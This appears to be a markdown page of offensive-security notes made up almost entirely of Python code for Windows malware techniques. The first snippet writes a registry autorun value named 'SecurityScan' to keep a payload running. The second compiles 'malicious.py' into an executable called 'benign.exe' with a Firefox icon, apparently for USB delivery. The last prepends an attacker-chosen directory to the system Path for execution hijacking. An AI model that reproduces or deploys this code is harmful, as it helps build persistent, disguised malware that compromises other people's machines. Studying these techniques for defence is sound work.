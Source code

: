```python
# Add registry autorun key
reg = winreg.ConnectRegistry(None,reghive)
key = winreg.OpenKey(reg,regpath,0,access=winreg.KEY_WRITE)
winreg.SetValueEx(key,"SecurityScan",0,winreg.REG_SZ,filepath)
```

```python
# Build executable file from python file

import PyInstaller.__main__
import shutil
import os

filename = "malicious.py"
exename = "benign.exe"
icon = "Firefox.ico"
pwd = os.getcwd()
usbdir = os.path.join(pwd,"USB")

if os.path.isfile(exename):
    os.remove(exename)

# Create executable from Python script
PyInstaller.__main__.run([
    "malicious.py",
    "--onefile",
    "--clean",
    "--log-level=ERROR",
    "--name="+exename,
    "--icon="+icon
])

# Clean up after Pyinstaller
shutil.move(os.path.join(pwd,"dist",exename),pwd)
shutil.rmtree("dist")
shutil.rmtree("build")
shutil.rmtree("__pycache__")
os.remove(exename+".spec")
```

### Hijack Execution Flow

### Modifying the path using os and winreg

```python
import os, winreg

def readPathValue(reghive,regpath):
    reg = winreg.ConnectRegistry(None,reghive)
    key = winreg.OpenKey(reg,regpath,access=winreg.KEY_READ)
    index = 0
    while True:
        val = winreg.EnumValue(key,index)
        if val[0] == "Path":
            return val[1]
        index += 1

def editPathValue(reghive,regpath,targetdir):
    path = readPathValue(reghive,regpath)
    newpath = targetdir + ";" + path
    reg = winreg.ConnectRegistry(None,reghive)
    key = winreg.OpenKey(reg,regpath,access=winreg.KEY_SET_VALUE)
    winreg.SetValueEx(key,"Path",0,winreg.REG_EXPAND_SZ,newpath)
    
```